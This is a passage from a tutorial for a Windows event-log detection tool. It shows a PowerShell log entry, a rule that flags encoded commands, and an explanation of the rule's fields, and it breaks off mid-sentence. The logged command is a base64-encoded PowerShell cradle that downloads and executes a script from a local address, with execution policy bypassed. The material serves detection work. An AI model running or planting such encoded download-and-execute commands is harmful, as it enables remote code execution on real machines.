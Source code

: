 ```xml
	<EventData>
 	  	<Data>Stopped</Data> 
      	<Data>Available</Data> 
      	<Data>NewEngineState=Stopped PreviousEngineState=Available SequenceNumber=15 HostName=ConsoleHost HostVersion=5.1.18362.145 HostId=9acf0149-61aa-419e-9ac2-ef336a40a31a HostApplication=powershell -ep bypass -e JABjAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAA7AEkARQBYACAAJABjAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAMgA3AC4AMAAuADAALgAxADoAOAAwADAAMAAvAHMAIgApAA== EngineVersion=5.1.18362.145 RunspaceId=c5d60be5-441d-408a-9e17-36084284756d PipelineId= CommandName= CommandType= ScriptName= CommandPath= CommandLine=</Data> 
	</EventData>
</Event>
```

The following is a rule to detect this type of logs:

```yaml
public EncodedPowershellCommand
{
    metadata:
      author: "AbdulRhman Alfaifi"
      reference: "https://docs.microsoft.com/en-us/powershell/module/Microsoft.PowerShell.Core/About/about_PowerShell_exe?view=powershell-5.1#-encodedcommand-base64encodedcommand"
      creationDate: "20/10/2019"
      score: 90
      description: "Encoded PowerShell Command"
    Channel: "Windows PowerShell"
    include:
      EventID: 
      - "403"
      - "400"
      - "600"
      Data2:
      - "* -e*"
      - "* bypass *"
}
```

Let's break down the above rule:

* First, the type of the rule is public.
* Then the name of the rule. In this rule I named it `EncodedPowershellCommand`
* Inside the body we have metadata,channel and include
* The `metadata` have some information about the rule and who created it and so on.
* The `channel` field contains the log file that this rule apples to.
* The `include` field contains two entries, And they are as follows:
  * EventID: This is the text inside the `EventID` tag in the event above.
  * Data2: This is the third (index start at, as it should be ...) child of the `EventData` tag which contains the detailed log information. Here I am searching for `-e` argument and `bypass` keyword (might give you false positive, depending on your environment) . The `*` is a wildcard match, which means any character.

If you tried to execute Rhaegal with this rule on the `Windows PowerShell` using the command :
